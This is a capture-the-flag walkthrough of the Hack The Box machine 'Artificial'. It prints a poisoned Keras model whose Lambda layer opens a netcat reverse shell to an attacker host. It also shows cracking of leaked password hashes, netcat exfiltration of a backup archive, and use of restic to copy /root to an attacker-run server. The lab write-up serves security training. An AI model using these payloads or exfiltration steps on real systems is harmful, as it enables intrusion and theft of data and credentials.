 # 🚪 Hack The Box – Artificial (Easy)
Machine Type: Linux | Solved by: Akshat Nigam | Category:Web Exploitation, Docker Misconfiguration, Privilege Escalation | Difficulty: Easy | Attack Surface:HTTP (port 80), TensorFlow via file upload
---
## Initial Enumeration

### Nmap Scan

```bash
nmap -sV -sC 10.10.11.74 -v
```

**Open Ports:**

* 22/tcp: OpenSSH 8.2p1
* 80/tcp: HTTP (nginx 1.18.0)
---
## Web Exploitation - TensorFlow RCE

1. Register a user and access the upload page.
2. Gather `requirements.txt` and `Dockerfile` for environment context:

### Dockerfile

```dockerfile
FROM python:3.8-slim
WORKDIR /code
RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/.../tensorflow_cpu-2.13.1...whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1...whl
ENTRYPOINT ["/bin/bash"]
```
Build the Docker image using 

```bash
docker build -t <image name> .
```
Start the container 

```bash
docker run -it -v $(pwd):/app <image name> 
```
---
### Exploit Code

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

3. Upload model and trigger execution by clicking **"View Predictions"**.
---
## Getting User

### SQL Enumeration

```bash
sqlite3 users.db
sqlite> SELECT * FROM user;
```

Extracted user hashes. Example:

```plaintext
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
```
---
### Cracking Hash with John

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
```

Cracked Password: `mattp005numbertwo`
---
### SSH Access

```bash
ssh gael@10.10.11.74
```
---
## Privilege Escalation - Root

### Backup Discovery

```bash
cd /var/backups
ls -la
```

Found: `backrest_backup.tar.gz`

Extracted and found:
---
## Netcat Transfer 

```bash
nc -nv <your ip> <port> < backrest_backup.tar.gz
```
On your Attacking machine open the listening 

```bash
nc -nlvp <port> > backrest_backup.tar.gz
```
Unzip it and read 

```bash
cat .config/backrest/config.json
```

```json
"passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
```
---
### Decode and Crack Bcrypt

```bash
echo '<base64>' | base64 -d > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

Cracked Password: `!@#$%^`

### Internal Port Forwarding

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```
---
## Using Restic (GTFOBins)
Go to the http://localhost:9898 enter the username and password you gained above. 
```bash
Username: backrest_root
Password: !@#$%^
```
---
### Start Local Restic Server

Create your own Repo name it according to your use. 

```bash
Repository Url: /opt
Password: <Depends on you>
```
On your system, install Rest-server, using go

```bash
./rest-server --path /tmp/restic-data --listen :12345 --no-auth
```

### On Target - Backup `/root`

Now after creating the repo, in the Run command execute:

```bash
restic -r rest:http://<your-ip>:12345/myrepo init
restic -r rest:http://<your-ip>:12345/myrepo backup /root
```
---
### On Attacker - Restore Snapshot

```bash
restic -r /tmp/restic-data/myrepo snapshots
restic -r /tmp/restic-data/myrepo restore <snapshot-id> --target ./restore
```

Root flag found:

```bash
cat restore/root/root.txt
```
---
### SSH as Root (Optional)

```bash
ssh -i ./id_rsa root@Artificial.htb
```

---

## Summary

* **User:** Achieved via TensorFlow model RCE and hash cracking.
* **Root:** Extracted from backup archive, cracked bcrypt password, used port forwarding and restic GTFOBin to restore `/root`.

> Rooted 🎉
